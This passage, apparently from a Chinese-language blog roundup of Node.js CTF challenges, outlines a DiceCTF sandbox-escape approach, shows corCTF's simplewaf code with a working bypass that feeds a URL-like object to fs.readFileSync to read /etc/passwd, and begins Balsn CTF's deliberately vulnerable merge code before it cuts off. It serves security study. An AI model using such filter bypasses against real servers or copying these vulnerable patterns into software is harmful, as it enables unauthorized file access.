 解法有三個：

1.  `import()`，這個沒被刪掉
2.  用 `arguments.callee.caller.arguments` 可以拿到上層被覆蓋掉的 arguments（Node.js 自動幫你包的一層）
3.  用 try catch 可以拿到 Error 的 instance

詳細 writeup: [https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/#miscundefined55-solves](https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/#miscundefined55-solves)

### corCTF 2022 - simplewaf

這題的核心是這樣：

```js hljs
if([req.body, req.headers, req.query].some(
    (item) => item && JSON.stringify(item).includes("flag")
)) {
    return res.send("bad hacker!");
}
res.send(fs.readFileSync(req.query.file || "index.html").toString());
```

你可以控制 `req.query.file` 但是不能包含 `flag` 這個字，目標是讀到 `/app/flag.txt` 這個檔案。

這題需要去看 `fs.readFileSync` 的內部實作，會發現可以傳入一個長得很像 URL instance 的物件，就會用 new URL() 去讀，就可以用 URL encode 繞過了：

```js hljs
const fs = require('fs')

console.log(fs.readFileSync({
  href: 1,
  origin: 1,
  protocol: 'file:',
  hostname: '',
  pathname: '/etc/passw%64'
}).toString())

```

作者 writeup：[https://brycec.me/posts/corctf\_2022\_challenges#simplewaf](https://brycec.me/posts/corctf_2022_challenges#simplewaf)

### Balsn CTF 2022 - 2linenodejs

程式碼核心長這樣：

```js hljs
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});


module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
```